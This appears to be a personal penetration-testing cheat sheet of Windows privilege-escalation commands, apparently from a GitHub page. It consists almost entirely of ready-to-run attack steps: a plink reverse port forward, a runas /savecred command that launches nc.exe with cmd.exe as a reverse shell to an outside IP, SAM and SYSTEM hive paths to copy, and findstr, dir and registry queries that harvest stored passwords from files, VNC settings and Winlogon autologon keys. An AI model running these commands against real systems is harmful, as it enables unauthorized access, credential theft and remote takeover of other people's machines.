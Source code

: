 #### Service only available from inside  
netstat -ano  
upload plink.exe  

plink.exe -R "remote port":127.0.0.1:"local port"  root@"ipaddress"

#### Pasword in files  
https://pentestlab.blog/tag/privilege-escalation/page/3/  
cmdkey /list        << If there are entries, it means that we may able to runas certain user who stored his cred in windows  
runas /savecred /user:ACCESS\Administrator "c:\windows\system32\cmd.exe /c \\IP\share\nc.exe -nv 10.10.14.2 80 -e cmd.exe"  

Can we find any SAM files?  
%SYSTEMROOT%\repair\SAM  
%SYSTEMROOT%\System32\config\RegBack\SAM  
%SYSTEMROOT%\System32\config\SAM  
%SYSTEMROOT%\repair\system  
%SYSTEMROOT%\System32\config\SYSTEM  
%SYSTEMROOT%\System32\config\RegBack\system  

findstr /si password *.txt  
findstr /si password *.xml  
findstr /si password *.ini  
findstr /si pass/pwd *.ini  

dir /s *pass* == *cred* == *vnc* == *.config*  

in all files  
findstr /spin "password" *.*  
findstr /spin "password" *.*  

Unattended? vnc?  
c:\sysprep.inf  
c:\sysprep\sysprep.xml  
c:\unattend.xml  
%WINDIR%\Panther\Unattend\Unattended.xml  
%WINDIR%\Panther\Unattended.xml  

dir /b /s unattend.xml  
dir /b /s web.config  
dir /b /s sysprep.inf  
dir /b /s sysprep.xml  
dir /b /s *pass*  

dir c:\*vnc.ini /s /b  
dir c:\*ultravnc.ini /s /b   
dir c:\ /s /b | findstr /si *vnc.ini  

#### VNC  
reg query "HKCU\Software\ORL\WinVNC3\Password"  
reg query "HKCU\Software\TightVNC\Server"  

#### Windows autologin  
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"  
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"  
